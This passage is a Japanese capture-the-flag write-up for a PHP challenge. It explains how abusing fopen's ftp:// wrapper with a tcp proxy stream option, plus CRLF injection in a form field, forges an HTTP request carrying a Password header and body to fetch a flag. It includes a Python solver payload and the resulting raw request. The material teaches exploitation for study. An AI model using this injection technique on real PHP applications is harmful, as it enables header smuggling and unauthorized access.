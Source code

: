 `fopen`で利用されるURLは`ftp://127.0.0.1:5000/flag?x=://127.0.0.1:3000/sss`となるため、`ftp://`が利用された上でホストが`127.0.0.1:5000`となる。また、`<div class='greeting-output'>So close</div>`と表示されるので、`http://127.0.0.1:5000/flag`にGETリクエストが飛んでいることがわかる。

[ソースコード](https://github.com/php/php-src/blob/0de8e401dba772e34a8924fbdc684c0528ceabeb/ext/standard/ftp_fopen_wrapper.c#L444)を読むと、proxyを指定した場合、そのオプションは`http://`を利用した場合と同様に利用されるので、
```
{
    "http": {
        "header": "Password: admin\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 14",
        "content": "username=admin"
    },
}
```
のようなコンテキストを送ればヘッダーやボディを送ることができるが([参考](https://www.php.net/manual/ja/context.http.php))、これを利用するには`http`の文字が含まれてしまうため、この方針は利用できない。

もしかしたらCRLFインジェクションが可能な箇所があるかもしれない、と試行錯誤してみる。
```python:solver.py
data = {
    "name": " HTTP/1.1\r\nPassword: admin\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 14\r\n\r\nusername=admin",
    "protocol": "ftp://127.0.0.1:5000/flag?x=",
    "options": json.dumps({
        "ftp": {
            "proxy": "tcp://127.0.0.1:5000",
        },
    }),
    "hello": ""
}
r = s.post(URL, data=data)
```

のようにリクエストを送ると、fopenに利用される文字列は、
```
ftp://127.0.0.1:5000/flag?x=://127.0.0.1:3000/ HTTP/1.1
Password: admin
Content-Type: application/x-www-form-urlencoded
Content-Length: 14

username=admin
```
のようになり、これがproxyを通すと、
```
GET ftp://127.0.0.1:5000/flag?x=://127.0.0.1:3000/ HTTP/1.1
Password: admin
Content-Type: application/x-www-form-urlencoded
Content-Length: 14

username=admin HTTP/1.1
Host: 127.0.0.1:5000
Connection: close
```
のような有効なHTTPリクエストとなる。これは、ヘッダーとボディの条件を満たすので、フラグが返ってくる。

